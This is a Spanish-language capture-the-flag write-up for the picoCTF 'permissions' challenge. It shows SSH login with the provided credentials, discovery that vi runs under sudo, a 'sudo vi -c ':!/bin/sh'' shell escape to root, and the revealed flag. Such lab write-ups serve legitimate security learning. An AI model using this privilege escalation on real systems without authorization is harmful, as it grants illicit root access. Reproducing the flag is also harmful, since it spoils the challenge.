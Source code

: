 # permissions

## Descripcion
Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p 59057 picoplayer@saturn.picoctf.net`Password: `yX-YQgX-vS`Can you login and read the root file?
## Solucion
Primero nos conectamos al reto con las credenciales proporcionadas por el reto:

```bash
┌──(xrengariox㉿PC)-[~/Downloads]
└─$ ssh -p 59057 picoplayer@saturn.picoctf.net
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Feb 18 23:39:21 2025 from 200.92.165.199
picoplayer@challenge:~$ 

```

Una vez conectados al reto, vamos al directorio raiz, y vemos que como tal no hay un archivo en la raiz, simplemente directorios:
```bash
picoplayer@challenge:/$ ls -la
total 0
drwxr-xr-x   1 root   root     51 Feb 18 23:38 .
drwxr-xr-x   1 root   root     51 Feb 18 23:38 ..
-rwxr-xr-x   1 root   root      0 Feb 18 23:38 .dockerenv
lrwxrwxrwx   1 root   root      7 Mar  8  2023 bin -> usr/bin
drwxr-xr-x   2 root   root      6 Apr 15  2020 boot
d---------   1 root   root     27 Aug  4  2023 challenge
drwxr-xr-x   5 root   root    340 Feb 18 23:38 dev
drwxr-xr-x   1 root   root     66 Feb 18 23:38 etc
drwxr-xr-x   1 root   root     24 Aug  4  2023 home
lrwxrwxrwx   1 root   root      7 Mar  8  2023 lib -> usr/lib
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root     10 Mar  8  2023 libx32 -> usr/libx32
drwxr-xr-x   2 root   root      6 Mar  8  2023 media
drwxr-xr-x   2 root   root      6 Mar  8  2023 mnt
drwxr-xr-x   2 root   root      6 Mar  8  2023 opt
dr-xr-xr-x 303 nobody nogroup   0 Feb 18 23:38 proc
drwx------   1 root   root     23 Aug  4  2023 root
drwxr-xr-x   1 root   root     66 Feb 18 23:50 run
lrwxrwxrwx   1 root   root      8 Mar  8  2023 sbin -> usr/sbin
drwxr-xr-x   2 root   root      6 Mar  8  2023 srv
dr-xr-xr-x  13 nobody nogroup   0 Feb 18 23:38 sys
drwxrwxrwt   1 root   root      6 Aug  4  2023 tmp
drwxr-xr-x   1 root   root     18 Mar  8  2023 usr
drwxr-xr-x   1 root   root     28 Mar  8  2023 var
```

De aqui algo que nos puede interezar es el directorio llamado challenge, el cual podemos ver que no tiene nada de permisos:
```bash
d---------   1 root   root     27 Aug  4  2023 challenge
```

Si quieremos acceder a este, puesto que no tenemos permisos nos da un error:
```bash
picoplayer@challenge:/$ cd challenge/
-bash: cd: challenge/: Permission denied
```

Asi que comenzamos viendo que permisos tenemos nosotros como usuario picoplayer en el sistema:
```bash
picoplayer@challenge:/$ whoami
picoplayer
picoplayer@challenge:/$ sudo -l 
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

Y nos dice que nosotros solo podemos usar el comando vim ('vi'). Lo cual realmente no es mucho, asi que toca investigar. En este caso vemos que se puede hacer una elevacion de privilegios cuando podemos correr el comando como super usuario:

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

Tras poner el comando nos convertimos en el usario root:
```sh
picoplayer@challenge:~$ sudo vi -c ':!/bin/sh' /dev/null

# whoami
root
# 
```

Ahora intentamos acceder a la carpeta challenge, pero vemos que no tiene nada:
```bash
# cd challenge  
# ls -la
total 4
d--------- 1 root root 27 Aug  4  2023 .
drwxr-xr-x 1 root root 63 Feb 19 00:00 ..
---------- 1 root root 98 Aug  4  2023 metadata.json
# 
```

Entonces volviendo a leer la descripcion del reto, parece ser que el directorio donde debemos de buscar no es ese, si no, mas bien debemos buscar en el directorio root:

```bash
# cd root       
# ls -la
total 16
drwx------ 1 root root   22 Feb 19 00:02 .
drwxr-xr-x 1 root root   63 Feb 19 00:00 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw------- 1 root root  662 Feb 19 00:02 .viminfo
# cat flag.txt
cat: flag.txt: No such file or directory
# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_55878b51}
```

Vemos que aqui se encuentra el archivo de la flag, entonces lo leemos y nos da la flag:

```
picoCTF{uS1ng_v1m_3dit0r_55878b51}
```

## Notas adicionales

## Referencias

* https://gtfobins.github.io/gtfobins/vi/
